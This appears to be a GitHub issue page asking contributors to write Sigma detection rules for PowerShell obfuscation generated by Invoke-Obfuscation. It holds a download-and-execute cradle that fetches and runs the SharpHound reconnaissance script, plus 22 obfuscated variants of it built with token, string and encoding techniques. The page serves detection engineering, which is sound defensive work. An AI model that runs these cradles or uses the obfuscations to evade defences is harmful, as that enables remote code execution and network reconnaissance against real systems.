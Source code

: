 ## Hello, fellow OSCD participant!
This is your guide on how you can help us with soving this issue.

## Tasklist
You can pick up some of the methods of PowerShell command and script obfuscation, provided by the [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) framework from the table below and develop Sigma rules for them. You will need to use [regular expressions](https://github.com/Neo23x0/sigma/wiki/Specification#types) in Sigma rules.

## Original command
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
```

## Invoke-Obfuscation premise
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
```
### Just pick up the Case # you prefer and write a Sigma rule for it. When you're done, create a Pull Request to OSCD Sigma branch and specify this issue's number and the number of the case you solved (*e.g., "Develop Sigma rules for Invoke-Obfuscation #578 Case #1"*)

### TOKEN OBFUSCATION
| Case # | Option #1 | Option #2 | Option #3 | Result |
| :---: | :---: | :---: | :---: | :--- |
| 1 | TOKEN | TOKEN\STRING | TOKEN\STRING\1 | Invoke-Expression (New-Object Net.WebClient).DownloadString(('ht'+'tp'+'s://raw.gith'+'ubus'+'e'+'rcont'+'ent.com/BloodHo'+'und'+'A'+'D'+'/B'+'loo'+'dHo'+'un'+'d/a7'+'e'+'a5'+'36'+'387'+'0d92'+'5bc31'+'d'+'3'+'a441a361f38b0a'+'add0b'+'/Inge'+'s'+'tors/'+'Shar'+'pHou'+'n'+'d'+'.ps'+'1')); Invoke-BloodHound 
| 2 | TOKEN | TOKEN\STRING | TOKEN\STRING\1 | Invoke-Expression (New-Object Net.WebClient).DownloadString(("{16}{2}{17}{26}{10}{0}{3}{19}{7}{9}{6}{5}{8}{20}{23}{4}{18}{12}{24}{22}{11}{1}{25}{21}{13}{15}{14}"-f 'ntent.com/Blo','s/','/','o','441','ea5363870','nd/a7','ood','d92','Hou','.githubuserco','Ingestor','38b','und.p','1','s','https:','/r','a361f','dHoundAD/Bl','5bc3','o','aadd0b/','1d3a','0','SharpH','aw')); Invoke-BloodHound 
| 3 | TOKEN | TOKEN\COMMAND | TOKEN\COMMAND\1 | i`N`VOKe-E`xpRe`S`SIOn (new-`obJE`cT Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); InVoKe-b`l`OOdH`o`U`ND 
| 4 | TOKEN | TOKEN\COMMAND | TOKEN\COMMAND\2 | .('Invoke-E'+'xpr'+'es'+'s'+'i'+'on') (&('New-Obj'+'e'+'c'+'t') Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); .('Invo'+'ke-B'+'loodHoun'+'d') 
| 5 | TOKEN | TOKEN\COMMAND | TOKEN\COMMAND\3 | .("{1}{0}{2}{3}"-f 'oke','Inv','-','Expression') (&("{2}{3}{0}{1}" -f 'jec','t','N','ew-Ob') Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); &("{3}{1}{0}{2}"-f 'd','loo','Hound','Invoke-B') 
| 6 | TOKEN | TOKEN\ARGUMENT | TOKEN\ARGUMENT\1 | Invoke-Expression (New-Object net.weBclIEnt).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound 
| 7 | TOKEN | TOKEN\ARGUMENT | TOKEN\ARGUMENT\2 | Invoke-Expression (New-Object Net`.W`eBcL`ie`NT).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 8 | TOKEN | TOKEN\ARGUMENT | TOKEN\ARGUMENT\3 | Invoke-Expression (New-Object ('Net'+'.W'+'ebClie'+'nt')).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 9 | TOKEN | TOKEN\ARGUMENT | TOKEN\ARGUMENT\4 | Invoke-Expression (New-Object ("{2}{3}{1}{0}"-f'ent','ebCli','Net.','W')).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound 
| 10 | TOKEN | TOKEN\MEMBER | TOKEN\MEMBER\1 | Invoke-Expression (New-Object Net.WebClient).DOwNlOadsTriNg('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 11 | TOKEN | TOKEN\MEMBER | TOKEN\MEMBER\2 | Invoke-Expression (New-Object Net.WebClient)."Dow`NL`oaDST`R`ING"('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 12 | TOKEN | TOKEN\MEMBER | TOKEN\MEMBER\3 | Invoke-Expression (New-Object Net.WebClient).('Dow'+'nloadStrin'+'g').Invoke('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 13 | TOKEN | TOKEN\MEMBER | TOKEN\MEMBER\4 | Invoke-Expression (New-Object Net.WebClient).("{3}{2}{1}{0}" -f'g','nloadStrin','ow','D').Invoke('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
| 14 | TOKEN | TOKEN\WHITESPACE | TOKEN\WHITESPACE\1 | Invoke-Expression (  New-Object Net.WebClient ).DownloadString(  'https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1') ;   Invoke-BloodHound
| 15 | TOKEN | TOKEN\ALL | TOKEN\ALL\1 | &("{4}{2}{1}{0}{5}{3}"-f'-Expres','oke','v','on','In','si') (.("{0}{3}{1}{2}"-f'New-O','j','ect','b') ("{1}{0}{4}{2}{3}"-f 'e','N','Cli','ent','t.Web')).("{0}{2}{1}" -f'D','loadString','own').Invoke(("{12}{0}{7}{14}{17}{1}{16}{6}{5}{15}{8}{10}{3}{18}{11}{2}{4}{13}{19}{20}{9}" -f'aw.g','erconten','1d3a44','dHound/a7','1a36','Bloo','.com/','ith','Ho','estors/SharpHound.ps1','undAD/Bloo','25bc3','https://r','1f38b0','ubu','d','t','s','ea5363870d9','aadd0b','/Ing')); &("{1}{4}{2}{3}{5}{0}" -f 'Hound','Inv','lo','o','oke-B','d')

### STRING OBFUSCATION
| Case # | Option #1 | Option #2 | Option #3 | Result |
| :---: | :---: | :---: | :---: | :--- |
| 16 | STRING | STRING\1 | - | &( ([stRING]$VeRBoSePrEfErencE)[1,3]+'x'-Join'')((('Invok'+'e-E'+'xpress'+'i'+'on'+' ('+'N'+'ew-Ob'+'jec'+'t Net.'+'WebClien'+'t).D'+'ownloa'+'dString'+'('+'{0}https://raw.githu'+'b'+'u'+'se'+'rcont'+'e'+'nt.co'+'m/BloodHoundA'+'D/BloodHound/a'+'7ea'+'53'+'6'+'3'+'870d925'+'bc31d3a441a'+'361f38b0'+'aadd0b/Ing'+'estor'+'s/SharpHound.ps1{0}); I'+'n'+'vo'+'ke'+'-'+'BloodHou'+'n'+'d')-F [ChaR]39) ) 
| 17 | STRING | STRING\2 | - |  (("{5}{38}{43}{10}{47}{49}{13}{36}{40}{6}{53}{19}{14}{33}{22}{23}{0}{39}{7}{25}{11}{35}{20}{8}{21}{34}{41}{44}{28}{26}{9}{27}{18}{55}{4}{3}{45}{1}{16}{37}{42}{50}{32}{30}{12}{31}{56}{46}{24}{17}{15}{52}{29}{51}{2}{48}{54}" -f 'w.git','c31','voke','d','0','Invo','Client).Downl','bu','o','d','ion (New-Objec','rc','Inges','et.','in','ps','d3a441a','und.','7ea5','tr','tent.c','m/','VFhttps:','//ra','Ho','se','un','/a','loodHo','F); ','b/','t','0aadd0','g(G','Blo','on','We','361','ke','hu','b','odHo','f3','-Express','undAD/B','925b','p','t ','-B','N','8b','In','1GV','oadS','loodHound','36387','ors/Shar')).RepLAcE(([CHar]71+[CHar]86+[CHar]70),[STRiNG][CHar]39)|IEx
| 18 | STRING | STRING\2 | - | SET  ("9"+"sca"+"Vi") (  [CHaR[ ] ]" ))93]RaHC[]GNirTs[,'ocD'(ecaLPEr.)'dnuo'+'HdoolB'+'-ekovn'+'I'+' '+';)ocD1sp.dnuoHpra'+'hS/srotsegnI/b0'+'d'+'daa0b83f163'+'a144a3d13cb529d0'+'783635ae7a/dnuoHdoolB/DAdnuoH'+'do'+'olB/mo'+'c.tnet'+'nocre'+'s'+'ub'+'u'+'hti'+'g.war//:sptt'+'hoc'+'D(gnirt'+'S'+'da'+'ol'+'nwoD.)t'+'neilC'+'be'+'W.te'+'N tcej'+'bO-weN'+'( noi'+'sserp'+'xE-ekovnI'(( xEI"  ); [ArraY]::REVErSe((GEt-VARIAble ("9"+"sCA"+"vI")  -va ));. ( ([strInG]$VerboSepreFERENcE)[1,3]+'x'-joIn'')([STrING]::jOIn( '', (GEt-VARIAble ("9"+"sCA"+"vI")  -va )) ) 

### ENCODING OBFUSCATION
| Case # | Option #1 | Option #2 | Option #3 | Result |
| :---: | :---: | :---: | :---: | :--- |
| 19 | ENCODING | ENCODING\1 | - |  "$( SET-ItEM  'VarIAble:OFs' '') " +[STrING]( (73 ,110, 118, 111, 107 ,101, 45 ,69,120,112,114 , 101,115, 115 , 105, 111 , 110, 32, 40,78 , 101,119 ,45,79,98 ,106 , 101,99, 116 , 32, 78 , 101, 116 , 46, 87, 101, 98 , 67 , 108 , 105,101 , 110,116 , 41 ,46, 68,111, 119 , 110,108,111 ,97 ,100,83 ,116 ,114 ,105, 110 ,103 ,40, 39 , 104 , 116, 116 ,112 ,115 ,58, 47 ,47,114,97 , 119, 46 ,103,105 , 116,104 , 117, 98, 117,115,101,114 ,99 , 111, 110,116 ,101 , 110 ,116, 46 , 99, 111,109,47, 66, 108, 111,111,100 , 72 , 111, 117,110 ,100, 65, 68, 47,66,108, 111 , 111, 100, 72,111 , 117, 110,100 , 47,97, 55 , 101 ,97,53,51, 54 , 51, 56, 55 , 48 ,100,57 ,50 , 53, 98 ,99, 51,49, 100, 51 , 97, 52 , 52,49 ,97, 51, 54 , 49 ,102, 51,56 , 98,48,97 , 97,100,100 , 48,98,47,73 ,110 ,103, 101, 115, 116,111, 114 ,115 , 47 ,83, 104 , 97 ,114 , 112 ,72, 111,117,110 , 100 , 46,112 , 115,49 , 39,41,59, 32, 73, 110 , 118, 111,107 ,101, 45,66, 108, 111 ,111, 100 ,72 , 111,117 , 110 ,100 )| fOrEach { ([ChaR] [inT]$_)})+" $(sEt-iteM 'vAriaBLe:ofs' ' ' ) " |.( $sHElliD[1]+$Shellid[13]+'X')
| 20 | ENCODING | ENCODING\2 | - | & ((gV '*MDr*').nAME[3,11,2]-JOIN'') (" $( SET  'ofs' '') " + [stRIng]((49 ,'6e' , 76,'6f', '6b' , 65 ,'2d' , 45,78,70, 72 , 65,73 , 73 , 69, '6f', '6e' , 20, 28,'4e',65 , 77,'2d','4f', 62, '6a' ,65, 63 ,74, 20 , '4e' , 65, 74 , '2e' , 57, 65, 62 , 43,'6c', 69,65,'6e' ,74,29,'2e' ,44, '6f', 77, '6e','6c' , '6f',61,64, 53 ,74 ,72 ,69,'6e' ,67 , 28 , 27,68 , 74, 74 ,70,73 ,'3a' ,'2f' ,'2f', 72 , 61, 77 , '2e' , 67 ,69,74 ,68, 75 ,62, 75,73, 65, 72, 63 , '6f' ,'6e', 74,65,'6e',74,'2e',63 ,'6f' , '6d' , '2f' , 42 ,'6c','6f' , '6f',64, 48 , '6f' ,75,'6e' , 64 , 41, 44 , '2f',42,'6c' , '6f', '6f' , 64 ,48,'6f', 75 ,'6e',64 , '2f', 61 , 37,65, 61, 35, 33, 36 , 33, 38,37,30 , 64, 39, 32, 35 , 62,63, 33,31 , 64,33 , 61, 34, 34,31 ,61,33,36 , 31, 66,33, 38, 62 , 30 ,61 , 61 ,64,64, 30 , 62, '2f' ,49,'6e' , 67,65 ,73, 74,'6f' , 72 , 73,'2f',53,68,61 , 72, 70 , 48 , '6f', 75, '6e', 64 ,'2e' , 70 , 73 , 31,27 , 29,'3b', 20, 49,'6e' ,76, '6f', '6b' ,65 , '2d' ,42, '6c' ,'6f' , '6f' ,64,48, '6f', 75 , '6e' ,64 )| FOrEacH-OBJEct { ([chaR] ( [COnvERT]::TOInt16(([sTRiNg]$_) ,16)))}) +"$( sv  'oFS' ' ')" )
| 21 | ENCODING | ENCODING\3 | - |  " $(Set  'OFS' '') " + [STrInG]( '111F156b166Z157P153_145U55>105>170U160U162l145F163>163U151>157F156b40Z50&116Z145>167F55Z117F142Z152U145b143w164Z40_116w145b164w56_127U145w142_103&154Z151l145&156b164U51U56l104U157P167Z156>154_157_141F144l123l164P162P151P156U147w50l47l150Z164P164b160U163b72l57P57>162P141&167l56Z147_151l164_150b165b142&165U163b145P162Z143w157b156Z164>145Z156F164w56&143Z157F155_57>102_154_157Z157w144F110&157>165_156U144>101F104b57>102_154w157&157>144_110w157U165F156l144l57l141U67Z145F141U65_63_66b63b70w67U60>144b71U62Z65P142P143>63w61l144Z63w141U64Z64l61_141Z63P66&61b146Z63b70P142Z60l141l141>144b144&60U142P57U111l156l147_145U163b164_157&162F163l57l123b150b141Z162_160&110_157l165Z156l144>56&160_163&61U47l51P73_40P111P156&166F157l153_145U55U102F154P157Z157>144l110U157F165b156P144' -sPlIt 'P'-sPlit 'l' -SpLit'&' -SPLit 'b'-Split '>'-SPLIt'F' -SpLIt 'Z' -SpLit'w'-split '_'-SPlit'U' |% { ([COnveRt]::TOINt16(($_.tOStRiNG()) ,8 )-as [ChAr])} )+"$(Set-vArIablE 'Ofs' ' ' ) "|.( $VeRbOSEpREfeRencE.TosTRing()[1,3]+'X'-Join'')
| 22 | ENCODING | ENCODING\4 | - | .( $psHOmE[21]+$psHoME[34]+'x') (" $( Sv 'OfS' '') "+[striNG]( '1001001}1101110D1110110!1101111Y1101011-1100101Y101101<1000101-1111000<1110000Y1110010I1100101I1110011Y1110011I1101001!1101111-1101110A100000!101000t1001110A1100101D1110111!101101A1001111<1100010}1101010D1100101<1100011t1110100D100000}1001110-1100101}1110100A101110}1010111Y1100101!1100010<1000011I1101100Y1101001-1100101}1101110t1110100}101001<101110}1000100<1101111-1110111I1101110t1101100<1101111H1100001I1100100}1010011}1110100Y1110010H1101001<1101110<1100111<101000<100111Y1101000}1110100Y1110100Y1110000t1110011H111010H101111t101111Y1110010H1100001}1110111D101110t1100111H1101001I1110100-1101000t1110101D1100010H1110101!1110011t1100101Y1110010I1100011D1101111!1101110!1110100}1100101I1101110I1110100!101110-1100011<1101111!1101101}101111!1000010}1101100A1101111!1101111H1100100I1001000Y1101111H1110101<1101110!1100100}1000001-1000100}101111A1000010}1101100t1101111<1101111-1100100}1001000I1101111I1110101I1101110H1100100Y101111-1100001}110111I1100101I1100001I110101A110011<110110H110011}111000H110111I110000-1100100Y111001-110010I110101!1100010Y1100011t110011!110001!1100100}110011<1100001!110100}110100<110001-1100001H110011A110110I110001<1100110I110011I111000-1100010D110000I1100001}1100001Y1100100!1100100D110000D1100010D101111I1001001A1101110}1100111!1100101-1110011D1110100I1101111I1110010-1110011Y101111<1010011D1101000Y1100001<1110010}1110000Y1001000Y1101111!1110101D1101110H1100100H101110A1110000}1110011Y110001D100111Y101001Y111011I100000-1001001A1101110Y1110110A1101111!1101011H1100101!101101I1000010!1101100-1101111D1101111D1100100I1001000!1101111A1110101H1101110I1100100'.splIt('A!HIt<-}YD')|foreaCH-obJECt {( [CONveRT]::tOInT16( ( $_.toSTriNG()) , 2) -as [CHar])})+"$(seT-ItEM 'vAriAbLe:ofs' ' ' )") 
